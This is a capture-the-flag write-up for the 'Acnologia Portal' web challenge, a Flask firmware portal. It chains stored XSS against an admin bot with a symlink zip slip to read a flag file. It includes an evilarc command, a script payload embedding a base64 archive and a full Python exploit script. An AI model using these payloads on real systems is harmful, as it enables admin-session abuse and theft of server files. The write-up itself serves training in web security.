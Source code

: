 ```yaml
---
path: "/writeups/cyber-apocalypse-ctf-2022-intergalactic-chase"
date: 2022-05-15
title: "Cyber Apocalypse CTF 2022 - Intergalactic Chase"
category: "writeup"
enabled: true
hidden: true
---
```


***

# Acnologia Portal
### Category: Web

## Description
Bonnie has confirmed the location of the Acnologia spacecraft operated by the Golden Fang mercenary. Before taking over the spaceship, we need to disable its security measures. Ulysses discovered an accessible firmware management portal for the spacecraft. Can you help him get in?

## Initial thoughts
For this challenge, we're given an endpoint to the "Acnologia Firmware Portal", which is just a login screen, as well as a zip file containing the source code. The code looks to be written using the Flask framework.

In `routes.py` we can see all the endpoints available to us. Many of the endpoints are publically available, but some require you to be logged in, be an administrator, or some combination of the two.

I created an account, and after logging in was given a list of firmware and the ability to report a bug on each.

![Login](./images/amidst-us/login.png)
![Firmware list](./images/amidst-us/firmware-list.png)

Looking at `routes.py` I could see that after posting a firmware report, a function called `visit_report()` is called. This function launches a selenium driver in `bot.py` that visits the report review page using a bot with administrative credentials. This immediately indicates an XXS injection.

```python
# routes.py

@api.route('/firmware/report', methods=['POST'])
@login_required
def report_issue():
    if not request.is_json:
        return response('Missing required parameters!'), 401

    data = request.get_json()
    module_id = data.get('module_id', '')
    issue = data.get('issue', '')

    if not module_id or not issue:
        return response('Missing required parameters!'), 401

    new_report = Report(module_id=module_id, issue=issue, reported_by=current_user.username)
    db.session.add(new_report)
    db.session.commit()

    # highlight-start
    visit_report()
    # highlight-end
    migrate_db()

    return response('Issue reported successfully!')
```

If we look at the Jinja2 template for the review page, we confirm our XXS theory. The `{{ report.issue | safe }}` directive tells Jinja2 not to sanitize the value of `report.issue`. We can control the value of `report.issue` when we submit a report, allowing us to XXS the admin bot.

```python
# review.html

...
    <div class="container" style="margin-top: 20px"> {% for report in reports %} <div class="card">
        <div class="card-header"> Reported by : {{ report.reported_by }}
        </div>
        <div class="card-body">
        <p class="card-title">Module ID : {{ report.module_id }}</p>
          # highlight-start
          <p class="card-text">Issue : {{ report.issue | safe }} </p>
          # highlight-end
          <a href="#" class="btn btn-primary">Reply</a>
          <a href="#" class="btn btn-danger">Delete</a>
        </div>
      </div> {% endfor %} </div>
  </body>
</html>
```

Before crafting an XXS, I needed to know what we want the bot to do. Looking at the Dockerfile we see that `flag.txt` is copied to the root of the Linux instance, and somehow we need to read this file.

## Zip slip
One endpoint of interest is `/firmware/upload`, which requires admin access. It takes a file from a POST request and calls `extract_firmware()`.

```python
# routes.py

@api.route('/firmware/upload', methods=['POST'])
@login_required
@is_admin
def firmware_update():
    if 'file' not in request.files:
        return response('Missing required parameters!'), 401

    extraction = extract_firmware(request.files['file'])
    if extraction:
        return response('Firmware update initialized successfully.')

    return response('Something went wrong, please try again!'), 403
```

`extract_firmware()` does the following:
* Copies a tar.gz file to the `/tmp` directory
* Extracts the tar.gz
* Copies the extracted files to a randomly-generated directory in `static/firmware_extract`

This sounds like it would be a zip slip. Something interesting is that tar.gz files allow you to tar existing symlinks and have them maintain their link when untarred on a different system. If we tar a file that is symlinked to `/flag.txt`, we can zip slip this file into the static folder on the challenge instance (which is publically accessible) and then read it from there.

I used a tool called [evilarc](https://github.com/ptoomey3/evilarc) to generate the zip slip tar.gz file. I used the following command:

```shell
python2 evilarc.py -o unix -d 1 -f zip.tar.gz zip-dir/ -p app/application/static/firmware_extract
```

## The XXS
I took the base64 of this file and crafted an XXS injection to send a POST request using fetch. This will trick the bot into uploading this file.

I used the following XXS injection and submitted this as a firmware report.

```html
<script>
    const formData = new FormData();

    const base64str = "H4sICFWrgWIC/3ppcC50YXIA7dFBCsIwEIXhHCUnSNKkIceRUFqptFrSiHp700VBXGhREIT/g+EtZjbDU0rHaVpm6JuY+9NRz7lko7s+jZeY2l17zSk2WYtPmSJ4v2QVvHnMlahqWxtnvTdBGFvVzgnpxQ+cy7tJSnGIYzu/uHu3Xx9Z80+o7f3Pt/GL/kPY0r+z1pX+XTBeSKu7Ie5Vvmb6BwAAAAAAAAAAAAAAAIBnd4IsRacAKAAA";

    var binary = atob(base64str.replace(/\s/g, ''));
    var len = binary.length;
    var buffer = new ArrayBuffer(len);
    var view = new Uint8Array(buffer);
    for (var i = 0; i < len; i++) {
        view[i] = binary.charCodeAt(i);
    }

    var blob = new Blob( [view], { type: "application/gzip" });
    formData.append("file", blob, "zip.tar.gz");
    fetch("http://localhost:1337/api/firmware/upload", {credentials: "include", method: "POST", body: formData});
</script>
```

Once the bot visits the review page, it will use its admin credentials to upload our tar.gz file to the `/firmware/upload` endpoint. The Flask code will then attempt to un-tar the file, and our zip slip will put the symlink into `/app/application/static/firmware_extract` on the challenge filesystem.

We can then navigate to the endpoint `/static/firmware_extract/symlink` and `flag.txt` will be downloaded onto our computer.

## Final script
I wrote this Python 3 script that does all the steps.

```python
import requests

def main():
    endpoint = "http://127.0.0.1"
    port = "1337"

    requests.post(f"{endpoint}:{port}/api/register", json={"username": "Articuler", "password": "foobar"})
    login = requests.post(f"{endpoint}:{port}/api/login", json={"username": "Articuler", "password": "foobar"})

    cookies = {
        "session": login.cookies["session"],
        "nc_sameSiteCookiestrict": "true",
        "nc_sameSiteCookielax": "true"
    }

    xss = """<script>
    const formData = new FormData();

    const base64str = "H4sICFWrgWIC/3ppcC50YXIA7dFBCsIwEIXhHCUnSNKkIceRUFqptFrSiHp700VBXGhREIT/g+EtZjbDU0rHaVpm6JuY+9NRz7lko7s+jZeY2l17zSk2WYtPmSJ4v2QVvHnMlahqWxtnvTdBGFvVzgnpxQ+cy7tJSnGIYzu/uHu3Xx9Z80+o7f3Pt/GL/kPY0r+z1pX+XTBeSKu7Ie5Vvmb6BwAAAAAAAAAAAAAAAIBnd4IsRacAKAAA";

    var binary = atob(base64str.replace(/\s/g, ''));
    var len = binary.length;
    var buffer = new ArrayBuffer(len);
    var view = new Uint8Array(buffer);
    for (var i = 0; i < len; i++) {
        view[i] = binary.charCodeAt(i);
    }

    var blob = new Blob( [view], { type: "application/gzip" });
    formData.append("file", blob, "zip.tar.gz");
    fetch("http://localhost:1337/api/firmware/upload", {credentials: "include", method: "POST", body: formData});
    </script>"""

    json = {
        "module_id": "test",
        "issue": xss
    }

    r = requests.post(endpoint + ":" + port + "/api/firmware/report", cookies=cookies, json=json)
    print(r.text)

main()
```

## Flag
```
HTB{des3r1aliz3_4ll_th3_th1ngs}
```
***

